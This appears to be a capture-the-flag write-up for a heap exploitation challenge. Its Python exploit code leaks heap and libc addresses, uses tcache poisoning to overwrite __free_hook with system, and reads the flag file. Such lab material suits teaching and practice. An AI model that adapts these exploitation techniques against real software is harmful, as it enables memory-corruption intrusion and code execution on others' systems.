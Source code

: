 # Solution

## Vulnerability

- arbitrary control of heap allocations

## Exploit
```python
def add(index, size):
    r.sendline(b"add")
    r.sendlineafter(b"Index: ", str(index).encode())
    r.sendlineafter(b"Size: ", str(size).encode())
    r.recvuntil(b"quit\n")


def remove(index):
    r.sendline(b"remove")
    r.sendlineafter(b"Index: ", str(index).encode())
    r.recvuntil(b"quit\n")


def send(index, msg):
    r.sendline(b"send")
    r.sendlineafter(b"Index: ", str(index).encode())
    r.sendlineafter(b"Send message: ", msg)
    r.recvuntil(b"quit\n")


def read(index):
    r.sendline(b"read")
    r.sendlineafter(b"Index: ", str(index).encode())
    addr = r.recvline()[:-1]+b"\x00\x00"
    r.recvuntil(b"quit\n")
    return addr
```
&nbsp;&nbsp;&nbsp;

- Leaking heap address  

We have to create two chunks and free them, then read address of heap which is stored in the second freed chunk.  
```python
add(0, 16)
add(1, 16)
remove(0)
remove(1)
heap_leak = u64(read(1))
```
- Libc address on heap  

To store a libc address on heap, we put chunk in unsorted bin, because then it will containt pointers to the main_arena(in libc).  
```python
add(0, 0x80)
add(1, 0x508)
add(2, 0x410)
remove(1)
add(1, 0x508)
```

- Leaking libc address  

We use tcache poisoning to allocate chunk at address where pointer to main_arena is stored.  
```python
def alloc_at(address,index):
    address = p64(address)
    add(index+1, 32)
    add(index, 32)
    remove(index+1)
    remove(index)
    send(index, address+b"\x00")
    add(index, 32)
    add(index, 32)
    return index
```
```python
libc_addr_index = alloc_at(addr_of_ptr_to_libc,8)
libc.address = u64(read(libc_addr_index)) - 0x1ecbe0
```

- Overwriting `__free_hook`  

Knowing libc address we can overwrite `__free_hook` with `system` using tcache poisoning and send().  
```python
free_hook = libc.symbols['__free_hook']
system = libc.address+0x000522c0

free_hook_index = alloc_at(free_hook,10)
send(free_hook_index, p64(system))
```

- Reading the flag  

We make new allocation at index 0 with string "cat flag.txt\x00". Calling remove(0) will execute `system("cat flag.txt\x00")`.
```python
add(0, 32)
send(0, b"cat flag.txt\x00")
r.sendline(b"remove")
r.sendlineafter(b"Index: ", b"0")
print("Flag:", r.recvuntil(b"}").decode())
```

[solve.py](solve.py)
